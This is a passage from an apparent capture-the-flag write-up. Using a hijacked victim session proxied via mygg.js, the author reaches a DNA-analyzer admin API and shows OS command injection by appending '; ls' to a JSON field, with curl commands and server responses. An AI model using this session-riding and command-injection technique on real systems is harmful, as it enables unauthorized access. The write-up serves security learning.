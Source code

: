 ![_config.yml]({{ site.baseurl }}/images/alphonse/mygg_portal.png)

Note that since the victim is browsing the web portal via the 127.0.0.1 interface, we also need to use localhost to comply with Same Origin Policy and to be able to read the answers from the victim's browsing.

Also, take note that we see no cookies defined, but we are riding on the victim's cookie.

![_config.yml]({{ site.baseurl }}/images/alphonse/portal_nocookies.png)

What we see in the admin panel is what appears to be a button to analyse the user provided DNA strings. Hit Ctrl+Shift+I to bring up the Web Developer toolbar to view the request to the API. Instead of using our attacking browser going forward, we can now switch to using curl via mygg.js to play around with the request.

```
root@kali:~# curl -i -x 127.0.0.1:8081 -d '{"id":"6","val":"GATC"}' http://127.0.0.1/dnanalyzer/portal/analyze_dna.php
HTTP/1.1 200 OK
cache-control: no-store, no-cache, must-revalidate
connection: Keep-Alive
content-type: text/html; charset=UTF-8
date: Fri, 18 Sep 2020 21:26:10 GMT
expires: Thu, 19 Nov 1981 08:52:00 GMT
keep-alive: timeout=5, max=100
pragma: no-cache
server: Apache/2.4.38 (Debian)
Content-Length: 6

Superb
root@kali:~# 
```

### Command execution

Very soon we will find out that we can execute OS commands simply by ending the DNA string and appending a command. Probably because API sends the data directly to a binary for analysis.

```
root@kali:~# curl -i -x 127.0.0.1:8081 -d '{"id":"6","val":"GATC; ls"}' http://127.0.0.1/dnanalyzer/portal/analyze_dna.php
HTTP/1.1 200 OK
cache-control: no-store, no-cache, must-revalidate
connection: Keep-Alive
content-type: text/html; charset=UTF-8
date: Fri, 18 Sep 2020 21:43:39 GMT
expires: Thu, 19 Nov 1981 08:52:00 GMT
keep-alive: timeout=5, max=100
pragma: no-cache
server: Apache/2.4.38 (Debian)
Content-Length: 9

index.php
root@kali:~# 
```
